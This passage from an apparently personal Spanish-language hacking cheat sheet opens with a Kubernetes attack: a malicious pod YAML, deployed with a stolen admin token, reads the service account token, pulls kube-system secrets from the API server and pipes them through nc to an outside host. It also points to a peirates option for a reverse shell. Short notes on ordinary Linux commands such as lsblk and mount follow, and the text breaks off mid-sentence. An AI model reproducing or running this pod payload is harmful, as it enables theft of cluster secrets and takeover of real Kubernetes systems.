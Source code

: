 Existe una vulnerabilidad que te permite crear un `pod` malicioso 
mediante un archivo yaml como el siguiente solo que para ello
tenemos que saber el token del admin, lo normal es que se encuentre
en un `secreto` de algún `namespaces` con la sintaxis siguiente lo creas.

Tenemos que resaltar que el yaml malicioso no siempre funciona puesto a que es un archivo muy especial a la hora de que se tramite la data.
En caso de que no te funcione usamos peirates.

#peirates -t "token" ##la opcion 20 te entabla una revershell

`kubectl create -f malicious-pod.yaml --token eyEff3F4...`

malicious-pod.yaml
::::::::::::::
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: alpine
  namespace: kube-system
spec:
  containers:
  - name: alpine
    image: alpine
    command: ["/bin/sh"]
    args: ["-c", 'apk update && apk add curl --no-cache; cat /run/secrets/kubernetes.io/serviceaccount/token | { read TOKEN; curl -k -v -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" https://<masternode>:443/api/v1/namespaces/kube-system/secrets; } | nc -nv <somethingreachable> 6666; sleep 100000']
  serviceAccountName: bootstrap-signer
  automountServiceAccountToken: true
  hostNetwork: true
```
### loadkeys
Es para cambiar momentaneamente la asignación del idioma del teclado
`loadkeys es`

### lsblk
listar block

A diferencia de df -h este comando es capaz de 
mostrarte todos las particiones.

### lsscsi
Esta herrmienta te indica el modelo del disco duro.

### mkfs.ext4 
Es para asignar un formato a la unidad o partición.

### mount
Con mount puedes crear monturas contra una máquina pero antes tendras que ver que monturas te permite crear esa máquina para ello
utilizaremos:
 